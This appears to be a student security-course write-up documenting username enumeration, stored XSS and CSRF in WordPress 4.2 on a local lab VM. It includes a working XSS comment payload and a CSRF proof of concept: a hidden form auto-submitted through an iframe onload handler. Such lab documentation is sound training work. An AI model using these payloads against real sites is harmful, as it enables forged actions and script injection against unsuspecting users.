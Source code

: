 # Project 7
Time Spent: 11 Hours

### Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress


### 1. Enumeration
  - [x] Summary: 
    - Vulnerability types: Enumeration
    - Tested in version: Word Press 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: 
<img src='WordPress Username Enumeration.gif' title='WordPress Username Enumeration' width='' alt='' />
  - [x] Steps to recreate: <br /> Start at a WordPress Login page. This vulnerability allows anyone the ability to enumerate a list of valid user names on a WordPress site. Start with typing "admin" and a random password, soon after you are alerted that there is an existing admin account, ultimately making it easier to brute force that admin password. 
  - [ ] Affected source code:
    - [Link 1]
    
    
### 2. Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: inject java script code as a comment 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: 
<img src='XSS Exploit.gif' title='XSS Exploit' width='' alt='' />
  - [X] Steps to recreate: <br />
         First start by finding a post to leave a comment on. Next, leave a comment with the following content:<br />
         *\< b onmouseover="alert('This is just a vulnerability')">click me!\</b>*
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
### 3. Authenticated Cross Site Request Forgery
  - [X] Summary: Create a hidden form that can be submitted by another user when the page loads. Example below leads to infinite loop. Will lead you to page saying "dupilcate comment deleted; it looks as though you've already said that!".
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: 
<img src='CSRF Exploit.gif' title='XSS Exploit' width='' alt='' />
  - [X] Steps to recreate: <br />
        -Start with creating a new comment that includes the javascript code for a new form. Next, below that comment, create an iframe that will run the form when it loads. Once that is complete, submit the comment. If nothing appears, try refreshing page. <br /> 
        
        Proof of Concept:
          <form action="http://wpdistillery.vm/wp-comments-post.php" method="post" id="commentform2" class="comment-form" novalidate>
            <input name="comment" type="hidden" value="hello there">
            <input type="hidden" name="comment_post_ID" value="3" id="comment_post_ID">
            <input type="hidden" name="comment_parent" id="comment_parent" value="0">
            <input type="hidden" id="_wp_unfiltered_html_comment_disabled" name="_wp_unfiltered_html_comment" value="8bfe964cea">
           </form>

          <iframe src=# onload=document.getElementById('commentform2').submit()> </iframe>
          
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
